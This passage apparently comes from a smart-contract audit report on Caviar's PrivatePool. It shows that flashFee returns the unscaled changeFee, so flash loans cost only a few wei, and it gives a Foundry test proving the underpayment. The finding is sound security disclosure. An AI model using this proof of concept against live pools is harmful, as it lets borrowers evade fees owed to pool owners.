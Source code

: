 ```solidity
750:     function flashFee(address, uint256) public view returns (uint256) {
751:         return changeFee;
752:     }
```

This means that, following the previous example, a `changeFee` value of 25 will result in 0.0025 ETH for change operation, but **just 25 wei for flash loans**.

The [documentation](https://docs.caviar.sh/technical-reference/custom-pools/smart-contract-api/privatepool#changefee) hints that this value should also be scaled to 4 decimals in the case of the flash loan fee, but in any case this is clearly an incorrect setting of the flash loan fee.

### Proof of Concept

In the following test, the pool is configured with a `changeFee` value of 25, and Alice is able to execute a flash loan by just paying 25 wei.

Note: the snippet shows only the relevant code for the test. Full test file can be found [here](https://gist.github.com/romeroadrian/06238839330315780b90d9202042ea0f).

```solidity
function test_PrivatePool_flashLoan_IncorrectFee() public {
    // Setup pool
    PrivatePool privatePool = new PrivatePool(
        address(factory),
        address(royaltyRegistry),
        address(stolenNftOracle)
    );
    uint56 changeFee = 25;
    privatePool.initialize(
        address(0), // address _baseToken,
        address(milady), // address _nft,
        100e18, // uint128 _virtualBaseTokenReserves,
        10e18, // uint128 _virtualNftReserves,
        changeFee, // uint56 _changeFee,
        0, // uint16 _feeRate,
        bytes32(0), // bytes32 _merkleRoot,
        false, // bool _useStolenNftOracle,
        false // bool _payRoyalties
    );
    
    uint256 tokenId = 0;
    milady.mint(address(privatePool), tokenId);
    
    // Alice executes a flash loan
    vm.startPrank(alice);
    
    FlashLoanBorrower flashLoanBorrower = new FlashLoanBorrower();
    
    // Alice just sends 25 wei!
    vm.deal(alice, changeFee);
    privatePool.flashLoan{value: changeFee}(flashLoanBorrower, address(milady), tokenId, "");
    
    vm.stopPrank();
}
```
